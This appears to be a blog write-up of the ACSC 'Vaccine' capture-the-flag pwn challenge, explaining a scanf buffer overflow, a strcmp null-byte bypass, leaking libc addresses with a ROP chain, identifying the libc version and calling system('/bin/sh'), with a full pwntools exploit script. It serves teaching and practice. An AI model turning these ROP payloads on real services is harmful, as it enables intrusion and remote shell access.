




### Ret2libc with unknown libc
#### ACSC Pwn Vaccine challenge

Showing how a vulnerable call to scanf can be used to overflow the stack and ret2libc without libc being provided.
 <!--more-->

This was the first pwn challenge of the Asia Cyber Security Challenge. The challenge files provided were a dockerfile, some server scripts and the ELF executable.

{}

When running the executable it asks us for a vaccine and rejects our response.


The next step is to open it in ghidra. The only intersting function is main, and after renaming some variables it looks like this:
```c
undefined8 main(void)

{
  int check;
  size_t input_length;
  ulong iterator;
  char secret [112];
  char input [112];
  char rna [104];
  FILE *fd_secret;
  FILE *fd_rna;
  int i;

  fd_rna = fopen("RNA.txt","r");
  fgets(rna,100,fd_rna);
  printf("Give me vaccine: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_00402024,input);
  i = 0;
  while( true ) {
    iterator = (ulong)i;
    input_length = strlen(input);
    if (input_length <= iterator) {
      check = strcmp(rna,input);
      if (check == 0) {
        puts("Congrats! You give the correct vaccine!");
        fd_secret = fopen("secret.txt","r");
        fgets(secret,100,fd_secret);
        printf("Here is your reward: %s\n",secret);
        return 0;
      }
      puts("Oops.. Try again later");
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    if ((((input[i] != 'A') && (input[i] != 'C')) && (input[i] != 'G')) && (input[i] != 'T')) break;
    i = i + 1;
  }
  puts("Only DNA codes allowed!");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

The disassembly is a bit weird but it basically takes input with scanf, checks that the input only contains the letters A, C, G and T. There is no immediate obvious format string or buffer overflow vulnerability however when we double click the first argument to scanf we find this:


Since there is no size argument or number between % and s (like %20s), this allows us to overflow as easily as if it was using gets. Our plan is now to overflow the return pointer of main. We can see that the program only returns inside the inner if, and exits everywhere else, so we need to pass the strcmp and overflow at the same time. 

Fortunately, strcmp stops comparing at 0 bytes so we can completely control what it compares. If we want to compare "AAAA" with "AAAA" we would send 4 As, followed by a null byte followed by a lot of As. The exact number should be 112-4-1+4 = 111 As. This is because the input buffer is 112, we have already sent 4 As and the nullbytes and we want to overflow 4 bytes into the next buffer, which is the rna buffer. We try sending the following code locally to confirm our math.

```py
#!/usr/bin/env python3
from pwn import *

p = process("./vaccine")

# p = remote("vaccine.chal.ctf.acsc.asia", 1337)

get_to_ret = b"A"*4 + b"\x00" + b"A"*111

p.recvuntil(b"vaccine:")
p.sendline(get_to_ret)
p.interactive()
```


Our math is correct! However, we do not have a flag. As we can tell from the disassembly, reaching the congratulations statement only tells us the secret, not the flag. If we run it against the server it tells us "your flag is in another castle". It is clear that the reward for passing the checks is not a flag but the return statement, and we are supposed to return to libc and call system("bin/sh").

We have not been given a libc, so we will have to leak multiple adresses from libc from the server, and use these to find a libc with the correct offsets between adresses. Lets first find the offset to rip. I like to send 4 Bs (after the 111 As in this case) and calculate the offset between my Bs and rip in gdb:



We needed to send another nullbyte before the Bs for strcmp to stop comparing after the 4 As in the rna buffer. After attaching gdb, we first inspect from our input to find the address of our Bs - as we confirm this is **0x7ffe3bb93b85**. The *info frame* (shortened to *i f*) instruction tells us where the rip is (**0x7ffe3bb93c18**). The difference between these two addresses is 147, so we need a total of 147 Bs after the nullbyte.

Now that we have instruction pointer control we use our standard payload where we pop rdi, to make room for the got address of some libc function as the first argument to calling the plt address of puts. At the end of the ropchain we call main, to be able to send more instructions. U64 is used to interpret the output. I first tried to leak puts, but it looked weird, so I ended up leaking fgets and printf. The whole point of this is to figure out which libc the server is running, so we make sure to run the following payload remote:

```py
pop_rdi = 0x401443
ret = 0x40101a

get_to_ret = b"A"*4 + b"\x00" + b"A"*111 + b"\x00" + b"B"*147

payload = get_to_ret
payload += p64(pop_rdi)
payload += p64(exe.got["printf"])
payload += p64(exe.plt["puts"])
payload += p64(exe.sym["main"])

p.recvuntil(b"vaccine:")
p.sendline(payload)

p.recvline()
p.recvline()

recieved = p.recvline().strip()
leak_printf = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, printf: "+ str(hex(leak_printf)))

payload = get_to_ret
payload += p64(pop_rdi)
payload += p64(exe.got["fgets"])
payload += p64(exe.plt["puts"])
payload += p64(exe.sym["main"])

p.recvuntil(b"vaccine:")
p.sendline(payload)

p.recvline()
p.recvline()

recieved = p.recvline().strip()
leak_fgets = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, fgets: "+ str(hex(leak_fgets)))

p.interactive()
```

The result is:


This can be enough to find the libc running on the server, because even though ASLR randomizes where in virtual memory libc is placed, the offset between the adresses inside libc will still be the same. A good tool is https://libc.rip/ which, when inputting our output, tells us the server is using either libc6_2.31-0ubuntu 9.8 or 9.9 for amd64.



We can download one of these libcs from the same site, and after getting an appropriate linker (ld-2.31.so) we can run pwninit to patch our binary for local testing:



Pwninit runs patchelf on the binary to link it with our new libc so we can test our exploit locally. Running ldd on the patched binary confirms that it is now linked to the libc in the same directory.

With the correct libc we can do a standard ret2libc. `libc.address = leak_fgets - libc.symbols["fgets"]` will now give us the base of libc, from which we can find the address of system and "/bin/sh". Adding the following to our payload will place "/bin/sh" in rdi and call system in libc. I call exit at the end but this should not be necessary.

```py
libc.address = leak_fgets - libc.symbols["fgets"] 

libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))

second_payload = get_to_ret
second_payload += p64(pop_rdi)
second_payload += p64(binsh)
second_payload += p64(ret)
second_payload += p64(libc_system)
second_payload += p64(libc_exit)

p.sendline(second_payload)
```

The ret before system is to align the stack, and can sometimes be necessary between instructions. If a payload works locally but not remotely, an extra return instruction is usually the first thing i try. Sending the full exploit (can be found at the bottom) gives the following result:



I procrastinated too much to get a screenshot of getting the flag on the server before they shut it down, so to demonstrate I used a testing flag locally.

## Full exploit:
```py
#!/usr/bin/env python3
from pwn import *

exe = ELF("./vaccine_patched")
libc = ELF("./libc.so.6", False)
ld = ELF("./ld-2.31.so", False)

context.binary = exe

#p = process("./vaccine_patched")
#gdb.attach(p)

p = remote("vaccine.chal.ctf.acsc.asia", 1337)

context.binary = exe

pop_rdi = 0x401443
ret = 0x40101a

get_to_ret = b"A"*4 + b"\x00" + b"A"*111 + b"\x00" + b"B"*147

payload = get_to_ret
payload += p64(pop_rdi)
payload += p64(exe.got["printf"])
payload += p64(exe.plt["puts"])
payload += p64(exe.sym["main"])

p.recvuntil(b"vaccine:")
p.sendline(payload)

p.recvline()
p.recvline()

recieved = p.recvline().strip()
leak_printf = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, printf: "+ str(hex(leak_printf)))

payload = get_to_ret
payload += p64(pop_rdi)
payload += p64(exe.got["fgets"])
payload += p64(exe.plt["puts"])
payload += p64(exe.sym["main"])

p.recvuntil(b"vaccine:")
p.sendline(payload)

p.recvline()
p.recvline()

recieved = p.recvline().strip()
leak_fgets = u64(recieved.ljust(8, b"\x00"))
log.info("Leaked libc address, fgets: "+ str(hex(leak_fgets)))

libc.address = leak_fgets - libc.symbols["fgets"] 

log.info("libc leak: " + str(hex(libc.address)))

libc_system = libc.sym["system"]
binsh = next(libc.search(b"/bin/sh"))
libc_exit = libc.sym["exit"]

log.info("binsh: "+ str(hex(binsh)))
log.info("system: "+ str(hex(libc_system)))
log.info("exit: "+ str(hex(libc_exit)))

second_payload = get_to_ret
second_payload += p64(pop_rdi)
second_payload += p64(binsh)
second_payload += p64(ret)
second_payload += p64(libc_system)
second_payload += p64(libc_exit)

p.sendline(second_payload)

p.interactive()
```